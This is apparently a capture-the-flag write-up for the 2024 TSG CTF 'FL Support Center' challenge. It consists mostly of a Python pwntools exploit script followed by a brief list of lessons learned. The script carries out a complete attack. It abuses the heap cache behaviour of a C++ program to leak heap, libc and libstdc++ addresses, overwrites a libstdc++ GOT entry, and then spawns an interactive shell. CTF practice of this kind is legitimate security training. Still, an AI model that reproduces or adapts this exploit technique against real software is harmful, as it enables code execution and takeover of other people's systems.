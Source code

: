 ```py
add(b"X"*0x4000)
add(b"\x88"*0xf0+p64(0xdeadbeefdeadbeef)[:7])
name = b'FL*Support*Center@fl.support.centeX'
add(name)
free(name)
add(name)
edit(name,b"x"*0xf7)
free(b"1"*0xf0)
free(name,b"FL*Support*Center@fl.support.center")
ru(b"age: ")
sfl = XxX(u64(p.read(8)),-1,0x40) 
warn(hex(sfl))
heap = sfl  - (0x555555575040-0x555555560000) 
sfl = (sfl>>12)-1
sla(b"> ",b'yes')
off = 0 
sla(b": \n",p64(sfl^(heap+0x10+off)))

pl = [0]*0x40
pl[12] = 0x555555574680 - 0x555555560000 +heap
pl[11] = heap+0x10
add(pack_tcache([11,12],[1,1],pl)[:0xf0])
warn(hex(heap))
payload = flat([0,0x00005555555722e0- 0x555555560000 +heap,0,0,0x555555574890+8- 0x555555560000 +heap,0x8,0x8,0,0,0,0]).ljust(0x100,b'\0')
add(payload[:0xd0])

cmd(3)
ru(b'Name: FL')
ru(b'Name: ')
libc = u64(p.read(8)) - (0x7ffff7a03b70-0x7ffff7800000)
libcpp = libc+0x400000
warn(hex(libc)) 
warn(hex(libcpp)) 

target  = libcpp + 0xa248 # getc got
pl = [0]*0x40
pl[4] = (0x7ffff7e77c10-0x7ffff7800000+libc)>>4<<4
warn(hex(pl[4]))
add(pack_tcache([4],[1],pl)[:0xc0])
# gdb.attach(p,'')

cmd(1)
ru(b'Name: ')
p.sendline(b"/bin/sh\0"+flat([0x7ffff7858740-0x7ffff7800000+libc]*8).ljust(0x40,b'\x22'))
p.interactive()
```


# 🚀 Learned
- libstdc++ is partial RELRO!
- Leak libc == Leak libstdc++
- The heap management of `string`/`map`/`cin` in c++.

[1]: https://github.com/n132/CTF-Write-Up/blob/main/2024-TSG-CTF/FL_Support_Center/FL_Support_Center.tar.gz